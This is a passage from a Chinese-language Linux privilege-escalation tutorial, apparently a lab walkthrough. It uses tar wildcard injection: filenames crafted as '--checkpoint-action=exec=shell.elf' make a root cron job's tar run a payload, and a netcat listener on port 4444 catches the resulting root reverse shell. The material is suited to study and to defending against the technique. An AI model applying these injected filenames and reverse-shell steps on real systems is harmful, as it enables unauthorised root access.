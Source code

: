 ![](img/8320a03e1abb48e4ed33d3d7002fce1c.png)

`chmod +x /home/user/shell.elf`

在/home/user 中创建这两个文件:

`touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf`

![](img/a8fd9d50b66b5408ee07fb8dfb0997de.png)

当 cron 作业中的 tar 命令运行时，通配符(*)将扩展到包括这些文件。因为它们的文件名是有效的 tar 命令行选项，tar 会识别它们，并把它们当作命令行选项而不是文件名。

在 Kali box 的 4444 端口上设置一个 netcat 监听器，并等待 cron 作业运行(不应该超过一分钟)。根 shell 应该连接回您的 netcat 监听器。

![](img/5a7ee616e75dd19abfc36c96a9885fd4.png)
